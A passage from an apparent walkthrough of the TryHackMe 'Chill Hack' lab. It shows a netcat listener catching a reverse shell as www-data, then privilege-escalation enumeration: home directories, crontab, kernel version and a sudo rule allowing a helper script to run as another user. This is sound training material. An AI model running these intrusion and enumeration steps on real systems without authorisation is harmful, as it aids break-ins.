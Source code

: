 We got the shell! 
  
  
  
---
  
  
  
# <ins>User escalation:</ins>
  
First we upload linpeas.sh for automated enumeration and start our own manual enumeration.
  
  
```bash
rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.11.19.12] from (UNKNOWN) [10.10.236.173] 46386

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ls -la /home
total 20
drwxr-xr-x  5 root    root    4096 Oct  3 04:28 .
drwxr-xr-x 24 root    root    4096 Oct  3 03:33 ..
drwxr-x---  2 anurodh anurodh 4096 Oct  4 14:01 anurodh
drwxr-xr-x  5 apaar   apaar   4096 Oct  4 14:11 apaar
drwxr-x---  4 aurick  aurick  4096 Oct  3 05:33 aurick

cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#

uname -a
Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

sudo -l
Matching Defaults entries for www-data on ubuntu:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
(apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```


[thmlink]: https://tryhackme.com/room/chillhack